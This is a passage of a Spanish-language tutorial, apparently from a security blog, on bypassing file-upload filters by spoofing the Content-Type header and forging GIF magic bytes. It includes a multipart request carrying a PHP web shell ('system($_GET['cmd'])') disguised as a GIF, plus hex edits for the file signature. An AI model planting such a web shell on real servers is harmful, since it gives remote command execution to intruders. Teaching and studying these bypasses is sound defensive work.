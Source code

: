 ![](/assets/img/commons/FileUpload/terminal11.png)
![](/assets/img/commons/FileUpload/terminal12.png)

ahora si queremos cambiar es importante interceptar el payload y la petición vamos a definir el Content-Type y dentro de nuestro archivo como encabezado definir el tipo de archivo en este caso será un GIF

```
> Content-Disposition: form-data; name=”myFile”; filename=”payload.php.gif”  
> Content-Type: image/gif
> 
> GIF89a;  
> <?php system($_GET[‘cmd’]);?>
```
> Importante : El "Content-Type" encabezado de respuesta puede proporcionar pistas sobre qué tipo de archivo cree que ha servido el servidor. Si este encabezado no ha sido establecido explícitamente por el código de la aplicación, normalmente contiene el resultado de la asignación de extensión de archivo/tipo 

## Bypassing Magic Number Filtering Hexadecimal 
para esto agregaré hasta arriba 6 A y ver su representación en hexadecimal
Si hemos agregado seis caracteres al comienzo de la secuencia de comandos, notaremos que al hacerlo agregó el código hexadecimal correspondiente. En este caso, 4141 4141 4141.
![](/assets/img/commons/FileUpload/terminal13.png)
Para falsificar el número mágico, simplemente reemplazaremos esos seis bytes con uno de los dos números mágicos para GIF. Una vez que hagamos eso, podemos guardar el archivo y usaremos el comando de archivo nuevamente para verificar el tipo de archivo.
modificaré esos bloques de bytes para convertirlo en GIF87a
```console
47 49 46 38 37 61 GIF87a
```
